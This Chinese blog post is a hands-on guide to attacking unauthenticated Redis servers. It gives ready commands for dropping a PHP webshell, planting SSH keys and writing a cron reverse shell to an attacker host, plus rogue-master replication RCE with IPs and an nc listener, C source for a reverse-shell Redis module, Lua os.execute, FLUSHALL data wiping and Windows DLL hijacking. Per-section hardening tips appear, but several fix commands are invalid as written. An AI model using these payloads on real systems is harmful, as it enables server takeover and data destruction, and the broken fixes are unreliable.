





+++
title= "Redis未授权利用"
slug= "redis-unauthorized-access-exploit"
description= "经常打的redis，经常催的redis🤔"
date= "2025-09-22T20:24:20+08:00"
lastmod= "2025-09-22T20:24:20+08:00"
image= ""
license= ""
categories= ["talk"]
tags= ["redis"]

+++

redis未授权利用，确认其是否存活

```bash
redis-cli -h <Target-IP> -p <Target-Port>

info
```

可以说是最火热的姿势了，经常用到，这里我介绍几种我知道的

## 写入文件&&其他

这里分很多种，得知web根目录写入webshell，写入ssh密钥，写入定时任务反弹shell，还有获取（清空）数据

### 写入webshell

```bash
CONFIG SET dir /var/www/html
CONFIG SET dbfilename shell.php

SET payload "<?php @eval($_POST['cmd']);?>"
SAVE
```

### 写入ssh密钥

```bash
CONFIG SET dir /home/root/.ssh
CONFIG SET dbfilename authorized_keys

SET payload "ssh-rsa AAAAB3NzaC1yc2E...攻击者公钥"
SAVE
```

### 写入定时任务

```bash
CONFIG SET dir /var/spool/cron
CONFIG SET dbfilename root

# 写入定时任务（每分钟反弹Shell）
SET payload "* * * * * bash -i >& /dev/tcp/攻击者IP/端口 0>&1"
SAVE
```

### 获取（清空）数据

```bash
# 删库
FLUSHALL

## 查看键值
KEYS *
GET <key>
```

### 修复

```bash
# linux
## 降权运行Redis
useradd -r redis && chown -R redis:redis /var/lib/redis

## 配置文件限制
CONFIG SET dir /var/lib/redis
CONFIG SET dbfilename dump.rdb

## 禁用高危命令
CONFIG SET rename-command FLUSHALL ""
CONFIG SET rename-command CONFIG ""
CONFIG SET rename-command SAVE ""

# windows
## 创建专用低权限用户
net user redisuser "P@ssw0rd" /add /expires:never
icacls "C:\Program Files\Redis" /grant redisuser:(OI)(CI)F
```

## 主从复制RCE

只要未授权访问+未禁用`SLAVEOF`

- Redis 主从复制时，**主节点（Master）** 会将自己的数据（包括RDB文件）同步到 **从节点（Slave）** 。
- 攻击者可以伪造一个 **恶意主节点** ，强制目标 Redis（作为从节点）同步恶意数据（如`.so`文件、SSH密钥、WebShell等）。

也有可以一键利用的工具  https://github.com/n0b0dyCN/redis-rogue-server

```bash
## 编译工具
cd RedisModulesSDK/exp/
make


## 使用
python3 redis-rogue-server.py --rhost 39.98.116.123 --lhost 160.30.231.213

r
160.30.231.213
9999

nc -lvnp 9999

## 获取交互shell
script /dev/null
```

修复，直接禁用主从复制命令，以及限制只读权限

```bash
# 彻底禁用主从复制命令
CONFIG SET rename-command SLAVEOF ""

# 或限制为只读从节点（仍需密码）
replica-read-only yes
```

## 加载恶意模块RCE

Redis 4.0+（（支持动态模块加载的版本）并且需攻击者能上传恶意`.so`文件）

这个打法和主从复制很类似，都是加载恶意so等模块进行利用。

创建恶意模块，注册可以反弹shell的恶意方法，再注册`EVILCMD`命令可触发恶意`EvilCommand`方法

```c
#include "redismodule.h"
#include <stdlib.h>

int EvilCommand(RedisModuleCtx *ctx, RedisModuleString **argv, int argc) {
    system("bash -i >& /dev/tcp/攻击者IP/端口 0>&1"); // 反弹Shell
    return REDISMODULE_OK;
}

int RedisModule_OnLoad(RedisModuleCtx *ctx) {
    RedisModule_CreateCommand(ctx, "EVILCMD", EvilCommand, "readonly", 0, 0, 0);
    return REDISMODULE_OK;
}

//gcc -shared -fPIC -o evilmodule.so evilmodule.c $(pkg-config --cflags --libs hiredis)
```

传入目标服务器之后进行加载（局限性还挺大）

```bash
MODULE LOAD /tmp/evilmodule.so

EVILCMD
```

当然也有现成的项目供我们使用 https://github.com/n0b0dyCN/RedisModules-ExecuteCommand

```bash
git clone https://github.com/n0b0dyCN/RedisModules-ExecuteCommand
cd RedisModules-ExecuteCommand && make

## 想办法传上去
MODULE LOAD /tmp/exp.so
system.exec "bash -i >& /dev/tcp/攻击者IP/端口 0>&1"
```

修复，禁用模块加载，以及重命名模块命令

```bash
# 禁用模块系统
CONFIG SET enable-module-command no

# 或重命名模块命令
CONFIG SET rename-command MODULE ""
```

## **使用Lua脚本RCE**

- Redis < 7.4.2
- Redis < 7.2.7
- Redis < 6.2.17

```bash
EVAL "os.execute('cmd.exe /C your_command_here')" 0
```

修复，暂时禁用EVAL还有就是升级版本

```bash
# 升级到安全版本：
# Redis >= 7.4.2 / >= 7.2.7 / >= 6.2.17

# 临时缓解（禁用EVAL）
CONFIG SET rename-command EVAL ""
```

## **Redis命令重命名滥用**

只要未禁用`CONFIG`命令

```bash
CONFIG GET rename-command
```

如果返回为空说明未做限制，这里以禁用FLUSHALL为例子

```bash
CONFIG SET rename-command FLUSHALL "disabled_flushall"
```

我们可以重新命名config

```bash
CONFIG SET rename-command CONFIG "newconfig"

newconfig SET requirepass ""
# 恢复默认名
newconfig SET rename-command FLUSHALL ""
FLUSHALL
```

## DLL劫持

上面说的那几点，都是针对于Linux的redis未授权服务，但是如果是windows的话，就不能那么来进行getshell了，这里使用到一个常见姿势，DLL劫持，通常而言windows适应的默认版本都是受影响的范围，这里以3.0.504为demo进行测试 **Redis for Windows** **3.0.504及以下**

https://www.cnblogs.com/sup3rman/p/16803408.html

https://xz.aliyun.com/news/13892

主要参考这两篇文章的原理，利用的话，可以以 **春秋云镜MagicRelay**来进行实验

最开始的redis入口，即使第一次劫持失败了，也依旧可以继续尝试，但是一旦成功了一次，如果选择下线就不能成功第二次了，并且其中修改shellcode前，产生项目的命令必须为

```bash
python DLLHijacker.py C:\Windows\System32\dbghelp.dll

python DLLHijacker.py dbghelp.dll
```

并且是win11的`dbghelp.dll`，用来编译的工具

VS2022 ：https://github.com/Byxs20/dll_hijack

VS2019 ： https://github.com/kiwings/DLLHijacker

VS2022本来之前使用的先知文章的作者的项目，但是不知道为什么他下线了，喜欢藏是吧，幸好我存了，但是我懒得发GitHub，阿B就发了，里面也有完整的DLL和如何使用VS2022去替换shellcode之后处理的过程，先生成shellcode





打开项目属性，

1、设置运行库为多线程 (/MT 或 /MTd)：

- 在属性页面中，导航到：配置属性 > C/C++ > 代码生成。
- 找到 “运行库”（Runtime Library）选项。
- 如果当前是 Release 配置（截图中您已选择 Release x64），设置为 “多线程 (/MT)”。
- 如果是 Debug 配置，设置为 “多线程调试 (/MTd)”。
- 确保在顶部下拉菜单中选择正确的配置（Release 或 Debug）。

2、禁用安全检查 (/GS)：

- 仍在 配置属性 > C/C++ > 代码生成 页面。
- 找到 “安全检查”（Buffer Security Check）选项。
- 设置为 “禁用安全检查 (/GS-)”。

3、关闭生成清单：

- 导航到：配置属性 > 链接器 > 清单文件。
- 找到 “生成清单”（Generate Manifest）选项。
- 设置为 “否 (/MANIFEST:NO)”。


应用，编译成dll文件即可

https://github.com/r35tart/RedisWriteFile

https://github.com/0671/RabR

这两个项目都可以主从复制，去覆盖redis的DLL，达到劫持的效果，在服务器上面运行

```bash
python3 RedisWriteFile.py --rhost 39.99.240.173 --rport 6379 --lhost 47.109.176.117 --lport 16379 --rpath 'C:\\Program Files\\Redis\\' --rfile 'dbghelp.dll' --lfile 'dbghelp.dll'


# redis链接执行命令加载DLL
redis-cli -h 39.99.240.173
bgsave
```



或者是用RabR，我感觉这个更方便，可以直接上线

```bash
python3 redis-attack.py -r 39.99.231.97 -L 47.109.176.117 -wf dbghelp.dll

h
```





修复，升级版本，禁用bgsave，以及权限控制

```bash
# 升级到最新Windows版Redis
# 或实施以下措施：

# 文件权限控制
icacls "C:\Program Files\Redis\*.dll" /deny Everyone:(M)

# 禁用BGSAVE命令
CONFIG SET rename-command BGSAVE ""
```

## 修复

既然是未授权那修复必然是以修复未授权为主，设置密码、限制外部访问、禁用危险命令、改为低权限用户执行、使用docker运行redis从而开启了隔离环境对服务器来说

```bash
## 设置强密码
CONFIG SET requirepass "?6EFb|J5QZN)G)RX-hQ!"
bind 127.0.0.1

## 限制外部访问
sudo iptables -A INPUT -p tcp --dport 6379 -s 127.0.0.1 -j ACCEPT
sudo iptables -A INPUT -p tcp --dport 6379 -j DROP

## 禁用危险命令
CONFIG SET rename-command CONFIG disabled_CONFIG
CONFIG SET rename-command FLUSHALL disabled_FLUSHALL

# 修改配置文件
## /etc/systemd/system/redis.service
[Service]
User=redis
Group=redis

## docker运行
docker run --name redis -d --restart=always -p 127.0.0.1:6379:6379 redis --requirepass "?6EFb|J5QZN)G)RX-hQ!"


## 重启redis
sudo systemctl restart redis
```

对于windows的话文件不一样，所以也写一份

```bash
## 设置强密码
CONFIG SET requirepass "?6EFb|J5QZN)G)RX-hQ!"

## 限制外部访问
# 在Windows防火墙中创建入站规则
New-NetFirewallRule -DisplayName "Allow Redis Local" -Direction Inbound -Protocol TCP -LocalPort 6379 -Action Allow -RemoteAddress 127.0.0.1
New-NetFirewallRule -DisplayName "Block Redis External" -Direction Inbound -Protocol TCP -LocalPort 6379 -Action Block -RemoteAddress Any

## 禁用危险命令
CONFIG SET rename-command CONFIG disabled_CONFIG
CONFIG SET rename-command FLUSHALL disabled_FLUSHALL

# 修改配置文件
## redis.windows.conf
requirepass "?6EFb|J5QZN)G)RX-hQ!"
protected-mode yes
bind 127.0.0.1

## 重启redis
# 使用命令行重新启动Redis服务
Stop-Service redis
Start-Service redis

## 使用Docker运行
docker run --name redis -d --restart=always -p 127.0.0.1:6379:6379 redis --requirepass "your_password"
```

## 小结

未授权可谓是最好打的洞了，这里仅仅谈及如何利用，漏洞原理的话我看了看，大部分网上都有的，大家去看大佬的文章就好了。
